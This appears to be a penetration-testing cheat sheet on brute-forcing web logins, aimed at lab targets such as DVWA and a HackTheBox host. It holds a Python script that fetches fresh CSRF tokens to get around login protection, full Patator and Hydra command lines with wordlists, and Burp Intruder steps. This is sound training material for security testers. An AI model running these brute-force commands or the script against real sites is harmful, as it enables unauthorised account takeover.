

# Bruteforcing Web Logins
Bruteforcing web logins isn't a great idea:
• it's loud
• websites have counter measures in place (limited attempts, CSRF, IP blacklisting, etc.)
• can involve trial and error to set up (finding strings to verify correct vs. incorrect login)
Tools Overview:
• Hydra is unreliable.
• Burp is nice and easy but super slow unless you have the paid version.
• Patator is good but python based so will use a ton of CPU power.
## Defense
As mentioned, websites will have defensive measures in place to prevent password bruteforcing.
### CSRF - Cross-Site Request Forgery
If the login form you're bruteforcing uses CSRF, your bruteforce will fail.
CSRF prevents repeated requests from being sent to a login form by generating a new CSRF token each time you log in and submitting that to the form. If the submitted CSRF token is the same as one previously generated, the login form knows that you're using an automated tool to attempt repeated logins and will, regardless of whether the password was correct or not, force your login to fail.
However, this can be bypassed by grabbing the newly-generated CSRF token before logging in.
Here is a python script which does that. All credit goes to IppSec.
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning # handle SSL errors
import re
re_csrf = 'csrfMagicToken = "(.*?)"'
s = requests.session()
#requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
lines = open('passwords.txt')
for password in lines:
r = s.post('http://127.0.0.1/index.php')
csrf = re.findall(re_csrf, r.text)[0]
login = { '__csrf_magic': csrf, 'usernamefld': 'rohit', 'passwordfld': password[:-1], 'login': 'Login' }
r = s.post('http://127.0.0.1/index.php', data=login)
if "Dashboard" in r.text:
print("Valid login %s:%s" %("rohit", password[:-1]))
else:
print("Failed %s:%s" %("rohit", password[:-1]))
s.cookies.clear()
## patator
https://github.com/lanjelot/patator• Doesn't yet support Hydra's
-e nsr ◇ so include username and reverse of username in password wordlist
• Ignoring results by
size (page size) is more reliable than
clen (character length)
• If you're getting weird results and using a phpsessid, try refreshing/re-logging and getting a new one
### Syntax
•
http_fuzz - the module to use for the method of the attack
•
method=GET - how to send the request
•
url="http://192.168.1.44/DVWA/vulnerabilities/brute/?username=admin&password=FILE0&Login=Login" - the full URL and how to use the wordlist
•
0=/root/password.txt - defining the file for "wordlist 0" (aka password wordlist)
•
header="Cookie: security=low; PHPSESSID=${SESSIONID}" - the cookie information to send (probably won't need this normally)
•
http_proxy=127.0.0.1:8080 - instructs Patator to use a proxy (i.e. burp)
•
--threads=1 - single thread
•
timeout=5- timeout value of 5 seconds
•
--rate-limit=1 - wait 1 second before going on to the next thread
•
-x ignore:fgrep='Username and/or password incorrect.' - If it matches, do not display out. All Failed logins will contain this string (aka blacklisting) - PREFERRED METHOD
•
-x quit:fgrep!='Username and/or password incorrect.' - If it does not match this string on the page, quit.
•
,clen!='-1' - this extends the conditions required for quit (AND operator). The page response length cannot be
-1 (aka the page timed out).
### GET
#### Bruteforce Passwordpatator http_fuzz method=GET url="http://192.168.1.82/dvwa/vulnerabilities/brute/?username=admin&password=FILE0&Login=Login" 0=/usr/share/seclists/Passwords/darkweb2017-top100.txt header="Cookie: security=low; PHPSESSID=p50960r7rc5033cudumvabb59t" --threads=5 timeout=15 -x ignore:fgrep='Username and/or password incorrect.',clen!='-1'#### Bruteforce User + Passwordpatator http_fuzz method=GET url="http://192.168.1.82/dvwa/vulnerabilities/brute/?username=FILE0&password=FILE1&Login=Login" 0=/usr/share/seclists/Usernames/top-usernames-shortlist.txt 1=/usr/share/seclists/Passwords/darkweb2017-top100.txt header="Cookie: security=low; PHPSESSID=p50960r7rc5033cudumvabb59t" --threads=5 timeout=15 -x ignore:fgrep='Username and/or password incorrect.',clen!='-1'### POST
#### Bruteforce Passwordpatator http_fuzz url=http://internal-01.bart.htb/simple_chat/login.php method=POST body='uname=harvey&passwd=FILE0&submit=Login' 0=/usr/share/seclists/Passwords/darkweb2017-top1000.txt -x ignore:fgrep='Invalid Username or Password'## Burp
Burp is super slow unless you have the paid version.
But it is very easy to use and reliable and a good first test prior to doing more complex command line stuff.
### How-to
1) Attempt to log in and capture the request > Send to Intruder
2)
Intruder > Positions tab
Clear $Highlight the values you want to bruteforce and click
Add $3)
Intruder > Payloads tab
Add wordlist to Payload Options [Simple list]
4)
Intruder > Options tab
Go to Grep - Extract, click Add
Highlight the ‘login failed’ value you want Burp to search for
“password” was successful, because burp didn't find what we grepped for.
## Hydra
In my opinion, Hydra is unreliable.
It's often produced false positives for me.
I would advise avoiding hydra for HTTP and use something else.
### Syntax
-l = username1, username2
-L = username list
-p = password1, password2
-P = password list
-V = print every password attempt
-o <output file>.txt
-e nsr = try no password, username as password, reverse of username as password
-f = terminate program if login found for user+pass (and move onto finding next pair)
-F = terminate program if any user+pass pair is found (forget the other users)
http-post-form “<login url>:<parameters>:<success/failure string>"
F='<failed login string>'
S='<success login string>'
H=Header:\ <values>
Form types:
http-get-form
http-post-form
https-get form
https-post-form
### Usage
#### DVWA - Damn Vulnerable Web AppThis example is from attacking Damn Vulnerable Web App.
hydra -v -l admin -P /usr/share/seclists/Passwords/darkweb2017-top100.txt -o hydra_http-pass.txt -t 50 192.168.1.82 http-post-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.:H=Cookie\: security=low; PHPSESSID=p50960r7rc5033cudumvabb59t" -e nsr -f